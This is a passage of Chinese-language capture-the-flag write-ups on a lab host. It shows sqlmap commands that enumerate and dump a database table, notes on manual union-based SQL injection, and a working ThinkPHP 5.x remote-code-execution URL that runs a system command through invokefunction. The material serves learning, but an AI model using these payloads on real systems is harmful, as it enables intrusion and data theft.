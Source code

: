 >       sqlmap -u http://192.168.100.161:53459 --data "search=df" -dbs
>       ```
> 3. 获取库内表信息
>       ```sh
>       sqlmap -u http://192.168.100.161:53459 --data "search=df" -D news --tables
>       ```
> 4. 获取表内字段信息
>       ```bash
>       sqlmap -u http://192.168.100.161:53459 --data "search=df" -D news -T secret_table --columns
>       ```
> 5. 获取字段内容，得到flag
>       ```sh
>       sqlmap -u http://192.168.100.161:53459 --data "search=df" -D news -T secret_table -C "fl4g" --dump
>       ```

**总结**：

手动注入：
1. 单引号找注入点，闭合单引号、用`#`或“`-- `”（两杠后须有空格）注释
2. ```order by```测字段数
3. union select ```information_schema.columns```中的```table_schema```（数据库名）和```tabel_name```（表名），前面加```and 0```清除正常查询出的内容
4. union select ```information_schema.columns```中的```column_name```和```data_type```获取指定表的字段名和数据类型
5. 查表获得flag

SQLMAP使用：
* ```-u``` 指定目标url
* ```--data``` 指定请求体数据
* ```-dbs``` 获取数据库列表
* ```-D``` 指定数据库
* ```--tables``` 获取表列表
* ```-T``` 指定表
* ```--columns``` 获取字段列表
* ```-C``` 指定字段（字段名要加双引号）
* ```--dump``` 获取指定字段的值

2020.2.24.Mon

---


# 4. php_rce

**题目来源**：暂无  
**题目描述**：暂无

**WP**:
> **原理**  
> ThinkPHP5框架底层对控制器名过滤不严，可以通过url调用到ThinkPHP框架内部的敏感函数，进而导致getshell漏洞。
> 
> **目的**  
> 掌握框架漏洞
> 
> **环境**  
> Windows
> 
> **工具**  
> firefox
> 
> **步骤**
> 1. 根据主页提示，可以发现网页使用的是ThinkPHP框架，版本为5.1
> 2. 此版本存在getshell漏洞（百度一下poc一抓一大把）
> 3. 查找flag  
> http://192.168.100.161:54064/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find%20/%20-name%20%22flag%22